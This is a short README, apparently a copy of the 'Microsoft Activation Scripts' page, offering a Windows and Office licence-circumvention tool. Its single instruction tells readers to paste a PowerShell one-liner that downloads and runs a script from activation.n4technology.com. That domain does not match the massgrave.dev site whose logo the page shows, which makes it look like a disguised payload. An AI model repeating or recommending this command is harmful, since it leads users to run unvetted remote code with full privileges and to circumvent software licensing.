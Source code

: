 <p align="center"><img src="https://massgrave.dev/images/logo_small.png" alt="MAS Logo"></p>

<h1 align="center">Microsoft  Activation  Scripts (MAS)</h1>

<p align="center">A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.</p>
<hr>

## Download / How to use it?

### Method 1 - PowerShell (Recommended)

-   Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy-paste the below code and press enter
    ```
    irm https://activation.n4technology.com/activation.ps1 | iex
    ```
-   You will see the activation options. Follow the on-screen instructions.
-   That's all.



---

<p align="center">Made with Love ❤️ thanks mas</p>
